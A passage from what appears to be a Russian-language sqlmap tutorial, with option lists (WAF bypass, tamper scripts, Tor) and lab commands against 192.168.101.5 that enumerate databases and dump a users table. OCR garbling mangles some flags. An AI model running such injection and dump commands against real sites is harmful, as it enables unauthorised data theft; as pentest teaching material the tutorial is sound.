 * -/-pivot-column=P.. - Имя основной таблицы
* -/-save=SAVECONFIG - Сохранить варианты конфигурации в INI файле
* -/-scope=SCOPE - Regexp to filter targets from provided proxy log
* -/-test-filter=TE.. - Выбрать тест для полезно нагрузки к примеру ROW
* -/-test-skip=TEST.. - пропустить тест полезной нагрузки
* -/-update - обновить sqlmap

Разное:
* -z MNEMONICS - Использования коротких мнемоник: "flu,bat,ban,tec=EU"
* -/-alert=ALERT - Запускать команду при нахождении SQL инъекции
* -/-beep - Подать звуковой сигнал при вопросе или нахождении инекции
* -/-cleanup Clean up the DBMS from sqlmap specific UDF and tables
* -/-dependencies - Проверьте отсутствие (непрофильных) sqlmap зависимостей
* -/-disable-coloring - Отключить вывод на консоль
* -/-gpage=GOOGLEPAGE - Используйте результаты Google dork из определенного количества страниц
* -/-identify-waf - Сделать тщательное сканирование на WAF/IPS/IDS
* -/-skip-waf - пропустить проверку на WAF/IPS/IDS
* -/-mobile - имитировать телефон при проверке в заголовке HTTP User-Agent
* -/-offline - Работа в автономном режиме
* -/-page-rank - Показать рейтинг страницы в Google dork
* -/-purge-output - Безопасное удаление всего содержимого из рабочего каталога
* -/-smart - Провести тщательные испытания
* -/-sqlmap-shell Prompt for an interactive sqlmap shell
* -/-wizard простой интерфейс для начинающий пользователей



Примеры использования:

```sh
$ python sqlmap.py -/-tor -/-wizard -/-mobile -/-tamper=space2comment
```

Поясняю:
* -/-tor - sqlmap будет осуществлять проверку через прокси tor
* -/-wizard - Будет использоваться простой интерфейс с подсказками
* -/-mobile - для тестирования будет подставлены user-agent мобильного телефона
* -/-tamper=space2comment - будет использоваться один из методов обхода систем WAF

Пример использовался в Test Lab v7

```sh
$ python sqlmap -u http://192.168.101.5/article.php?art=1 —dbs
$ python sqlmap -u http://192.168.101.5/article.php?art=1 -D blogers —tables
$ python sqlmap -u http://192.168.101.5/article.php?art=1 -D blogers —tables T users —columns
$ python sqlmap -u http://192.168.101.5/article.php?art=1 -D blogers —tables T users —dump
```

Максимальный уровень поиска уязвимых форм используя случайного user-agent’а и в случае удачи определение типа базы данных.

```sh
sqlmap.py -u http://192.168.101.5/ -/-level=5 -/-banner  -/-user-agent
```

На данный момент всё, надеюсь что это кому-то помогло лучше разобраться в инструменте, спасибо.



















